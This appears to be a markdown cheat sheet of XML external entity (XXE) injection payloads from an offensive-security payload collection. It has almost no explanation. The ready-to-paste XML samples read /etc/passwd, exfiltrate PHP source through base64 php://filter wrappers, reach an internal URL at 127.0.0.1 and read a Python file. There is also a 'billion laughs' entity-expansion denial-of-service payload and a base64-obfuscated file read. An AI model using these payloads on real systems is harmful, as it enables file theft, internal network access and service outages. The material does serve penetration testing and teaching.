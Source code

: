 # XML Injection


### Read etc/passwd without encoding
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<post>
	<poster>vbvebre</poster>
	<content>&xxe;</content>
</post>
```

### Read a file and base64 encode it for display

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY c SYSTEM "php://filter/read=convert.base64-encode/resource=view_order.php">
]>
<order>
    <item>
        <name>&c;</name>
        <amount>14</amount>
    </item>
</order>
```

### Read a file from a URL 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1/secret"> ]>

<post>
	<poster>vbvebre</poster>
	<content>&xxe;</content>
</post>
```


### Read a python file

```xml
<xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:feed.py'>]>
<test>
<Author>&test;</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>
```

### Base64 Encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### Billion Laugh Attack
```
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### PHP Wrapper
```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

